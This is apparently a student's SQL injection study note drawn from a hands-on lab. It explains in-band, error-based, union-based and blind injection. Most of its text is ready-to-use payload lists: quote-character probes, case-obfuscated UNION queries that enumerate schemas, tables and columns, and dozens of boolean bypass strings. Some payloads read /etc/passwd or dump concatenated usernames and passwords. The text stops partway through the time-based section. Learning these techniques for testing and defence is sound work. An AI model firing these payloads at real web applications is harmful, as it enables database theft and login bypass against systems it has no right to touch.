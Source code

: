 SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. When a web application communicates with a database using input from a user that hasn't been properly validated, there runs the potential of an attacker being able to steal, delete or alter private and customer data and also attack the web applications authentication methods to private or customer areas. This is why as well as SQLi being one of the oldest web application vulnerabilities, it also can be the most damaging.

In this room, you'll learn what databases are, what SQL is with some basic SQL commands, how to detect SQL vulnerabilities, how to exploit SQLi vulnerabilities and as a developer how you can protect yourself against SQL Injection.

## What is SQL Injection?
The point wherein a web application using SQL can turn into SQL Injection is when user-provided data gets included in the SQL query.

## In-Band SQL Injection
In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

- Error-Based SQL Injection:
This type of SQL Injection is the most useful for easily obtaining information about the database structure as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database.

- Union-Based SQL Injection:
This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.
## Entry point detection
      [Nothing]
     '
     "
     `
     ')
     ")
     `)
     '))
     "))
     `))
## Extract database names, table names and column names
     #Database names
     -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

     #Tables of a database
     -1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

     #Column names
     -1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]

## Blind SQLi

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successful enumerate a whole database.

- Boolean Based: Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes. That outcome confirms to us that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, in fact, with just these two responses, it's possible to enumerate a whole database structure and contents.
##
      ' OR '1'='1'
      ' OR '1'='1' --
      ' OR '1'='1' /*
      ') OR ('1'='1' --
      ') OR ('1'='1' /*
      ")) OR (("1"="1' --
      ")) OR (("1"="1' /*
      ')) OR (('1'='1' --
      ')) OR (('1'='1' /*
      ' OR '1'='1' LIMIT 1 --
      ') OR ('1'='1' LIMIT 1 --
      ")) OR (("1"="1' LIMIT 1 --
      ')) OR (('1'='1' LIMIT 1 --
      ' OR '1'='1' UNION SELECT NULL --
      ' OR '1'='1' UNION SELECT 'a' --
      ' OR '1'='1' UNION SELECT 'a', 'b' --
      ' OR '1'='1' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES --
      ' OR '1'='1' UNION SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS --
      ' OR '1'='1' UNION SELECT @@VERSION --
      ' OR '1'='1' UNION SELECT USER() --
      ' OR '1'='1' UNION SELECT DATABASE() --
      ' OR '1'='1' UNION SELECT @@hostname --
      ' OR '1'='1' UNION SELECT LOAD_FILE('/etc/passwd') --
      ' OR '1'='1' UNION SELECT CONCAT('Username: ', username, ' Password: ', password) FROM users --
      ' OR '1'='1' UNION SELECT NULL, table_name FROM information_schema.tables --
      ' OR '1'='1' UNION SELECT NULL, column_name FROM information_schema.columns --
      ' OR '1'='1' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'database_name' --
      ' OR '1'='1' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'table_name' --
      ' OR '1'='1' UNION SELECT NULL, concat(username, ':', password) FROM users --
      ' OR 1=1--
      ' OR 1=1#
      '||'a'='a
      '||'a'='a'--
      '||'a'='a'/*
      ')||('a'='a
      ')||('a'='a'--
      ')||('a'='a'/*
      "))||(("a"="a
      "))||(("a"="a'--
      "))||(("a"="a'/*
      

- Time-Based: A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as SLEEP(x) alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 






